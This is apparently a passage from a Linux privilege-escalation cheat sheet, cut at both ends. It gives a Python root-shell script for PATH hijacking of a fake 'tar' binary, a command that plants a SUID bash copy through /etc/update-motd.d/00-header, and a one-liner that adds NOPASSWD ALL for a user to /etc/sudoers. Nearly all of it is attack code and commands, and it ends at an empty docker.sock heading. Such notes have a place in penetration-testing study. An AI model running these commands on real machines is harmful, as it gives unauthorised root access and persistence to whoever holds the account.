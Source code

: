       #! /usr/bin/env python3 
      print("Malicious me")
      import os
      os.setuid(0)
      os.setgid(0)
      os.system("/bin/bash")

- Python
      
      #! /usr/bin/env python
      print("Malicious me")
      import os
      os.setuid(0)
      os.setgid(0)
      os.system("/bin/bash")

- Use `chmod +x tar` later


### REFERENCES:

- [Nguyen](https://securitynguyen.com/posts/linux-privilege-escalation/path-hijacking-linux-privilege-escalation/)

---------------------------

### Exploiting right to modify ssh motd(message of the day) in `/etc/update-motd.d`

- Write the sh code to 00-header, the code grants suid bit to the bash file copied to a user's directory, `<username>` represents the user you have access to

      echo "cp /bin/bash /home/<username>/bash && chmod u+s /home/<username>/bash" >> /etc/update-motd.d/00-header

- Exit the ssh connection and reconnect, then run

      ./bash -p


### REFERENCES
   
- [HDKS](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/update-motd-privilege-escalation/)

----------------------------------------

### Interesting way to access root

- Add your user to the `/etc/sudoers` file and grant power to execute all commands

      echo "<user> ALL=(ALL:ALL) NOPASSWD: ALL" >> /etc/sudoers

------------------------------

### Abusing docker.sock unix socket
